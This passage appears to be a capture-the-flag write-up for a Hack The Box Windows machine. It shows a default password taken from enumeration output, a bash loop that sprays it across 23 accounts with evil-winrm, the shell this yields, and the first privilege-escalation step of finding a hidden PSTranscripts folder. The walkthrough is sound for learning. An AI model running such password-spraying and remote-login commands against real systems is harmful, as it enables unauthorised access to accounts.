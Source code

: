 I've cut the output considerably. The output shows a lot of information that have to read carefully.
And in this output, there are a lot of user accounts and in one line a default password.

The default password: Welcome123!

## Road to user flag

I tried to login as marko with Welcome123!, but this account seems to use a different password. So I have 23 accounts to check, this is a job for a simple script.

### evil-winrm

[Evil-winrm](https://github.com/Hackplayers/evil-winrm) is my favorite tool to login on windows machines which have the windows remote management enabled.
So I created an array of usernames and iterate over it to try a login with the credentials.

```bash
array=( abigail angela annette annika claire claude felicia fred gustavo marcus marko melanie naoki paulo per ryan sally simon steve stevie sunita ulf zach )
for user in "${array[@]}"
do
	echo "check $user"
	evil-winrm -i 10.10.10.169 -u $user -p Welcome123!
done
```

melanie is the user account, that has not changed the default password and so I have a valid shell.

### flag
```powershell
*Evil-WinRM* PS C:\Users\melanie\Desktop> Get-Content C:user.txt | measure -Line -Character -Word

Lines Words Characters Property
----- ----- ---------- --------
    1     1         32
```

## Privilege escalation

On Linux machines I always use ls -la to show hidden files, but strangely enough on Windows I mostly use the dir command only.
So it took some time before I found the hidden PSTranscripts folder on the c drive.

### Dir -Force

```powershell
*Evil-WinRM* PS C:\> dir -Force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        9/25/2019  10:48 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
```